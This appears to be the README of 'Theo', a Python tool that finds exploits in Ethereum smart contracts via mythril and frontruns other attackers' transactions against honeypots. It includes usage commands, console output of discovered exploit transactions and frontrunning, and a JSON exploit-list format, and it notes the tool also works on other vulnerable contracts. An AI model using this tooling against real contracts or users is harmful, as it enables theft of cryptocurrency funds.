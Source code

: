 # Theo

Theo is a great hacker showing the other script kiddies how things should be done.

![Theo](./static/theo-profile.png)

He knows [Karl](https://github.com/cleanunicorn/karl) from work.

Theo's purpose is to fight script kiddies that try to be leet hackers. He can listen to them trying to exploit his honeypots and make them lose their funds, for his own gain.

> "You didn't bring me along for my charming personality."

## Install

```console
$ git clone https://github.com/cleanunicorn/theo
$ cd theo
$ pip install -r requirements.txt
```

It's recommended to use [virtualenv](https://virtualenv.pypa.io/en/latest/) if you're familiar with it.

Requirements: 

- Python 3.5 or higher
- An Ethereum node with RPC available
- Accounts unlocked to be able to send transactions

## Demo

[Scrooge McEtherface](https://github.com/b-mueller/scrooge-mcetherface) tries to exploit a contract but Theo is able to successfully frontrun him.

[![asciicast](https://asciinema.org/a/KVbZpYZee39eWavEwiXMaemPI.svg)](https://asciinema.org/a/KVbZpYZee39eWavEwiXMaemPI)

## Usage

### Symbolic execution

A list of expoits is automatically identified using [mythril](https://github.com/ConsenSys/mythril).

Start a session by running:

```console
$ python ./theo.py tx-pool --account=<your unlocked account> --contract=<honeypot>
```

It will analyze the contract and will find a list of available exploits.

```console
$ python theo.py tx-pool --account=0xffcf8fdee72ac11b5c542428b35eef5769c409f0 --contract=0xd833215cbcc3f914bd1c9ece3ee7bf8b14f841bb                                          
Scanning for exploits in contract: 0xd833215cbcc3f914bd1c9ece3ee7bf8b14f841bb
Found exploit(s) [Exploit: (txs=[Transaction: {'input': '0xcf7a8965', 'value': '0xde0b6b3a7640000'}])]
Python 3.7.3 (default, Jun 24 2019, 04:54:02) 
[GCC 9.1.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>>
```

You can see the available exploits found. In this case one exploit was found. Each exploit is an [Exploit](https://github.com/cleanunicorn/theo/blob/263dc9f0cd34c4a0904529128c93f30b29eae415/theo/scanner/__init__.py#L9) object, having a list of transactions to exploit a bug.

```console
>>> exploits[0]
Exploit: (txs=[Transaction: {'input': '0xcf7a8965', 'value': '0xde0b6b3a7640000'}])
```

You can start the frontrunning monitor to listen for other hackers (script kiddies really) trying to exploit his honeypots.

Use `.frontrun()` to start listening for the exploit and when found send a transaction with a higher gas price.

```console
>>> exploits[0].frontrun()
Waiting for a victim to reach into the honey jar.
Listening for Transaction: {'input': '0xcf7a8965', 'value': '0xde0b6b3a7640000'}.
Found pending tx: 0x74eb78557b4659f27e7a8b82804ae97be9d0adfefd6a5652a097045f6de77a0b from: 0x1df62f291b2e969fb0849d99d9ce41e2f137006e.
Frontrunning with tx: {'from': '0xffcf8fdee72ac11b5c542428b35eef5769c409f0', 'to': '0xd833215cbcc3f914bd1c9ece3ee7bf8b14f841bb', 'gasPrice': '0x3b9aca01', 'input': '0xcf7a8965', 'gas': '0x4c4b40', 'value': '0xde0b6b3a7640000'}
Mined transaction: 0x0b5e7ceedd600eaf013ca8bc74900e6d29b25ed422baaa776f42bec01870a288
```

> "Oh, my God! The quarterback is toast!"

This works very well for some specially crafted [contracts](./contracts/) or some other vulnerable contracts, as long as you make sure frontrunning is in your favor.

### Load transactions from file

Instead of identifying the exploits with mythril, you can specify the list of exploits yourself.

Create a file that looks like this [input-tx.json](./test/input-tx.json):

```json
[
    [
        {
            "input": "0x4e71e0c8",
            "value": "0xde0b6b3a7640000"
        },
        {
            "input": "0x2e64cec1",
            "value": "0x0"
        }
    ],
    [
        {
            "input": "0x4e71e0c8",
            "value": "0xde0b6b3a7640000"
        }
    ]
]
```

This one defines 2 exploits, the first one has 2 transactions and the second one only 1 transaction. After the exploits are loaded, frontrunning is the same.

```console
$ python ./theo.py --txs=file --contract=0xe78a0f7e598cc8b0bb87894b0f60dd2a88d6a8ab --account=0xffcf8fdee72ac11b5c542428b35eef5769c409f0 --txs-file=./test/input-tx.json tx-pool     130 ↵
Found exploits(s) [Exploit: (txs=[Transaction: {'input': '0x4e71e0c8', 'value': '0xde0b6b3a7640000'}, Transaction: {'input': '0x2e64cec1', 'value': '0x0'}]), Exploit: (txs=[Transaction: {'input': '0x4e71e0c8', 'value': '0xde0b6b3a7640000'}])]
Python 3.7.3 (default, Jun 24 2019, 04:54:02) 
[GCC 9.1.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>> exploits[0].frontrun()
Waiting for a victim to reach into the honey jar.
Listening for Transaction: {'input': '0x4e71e0c8', 'value': '0xde0b6b3a7640000'}.
```
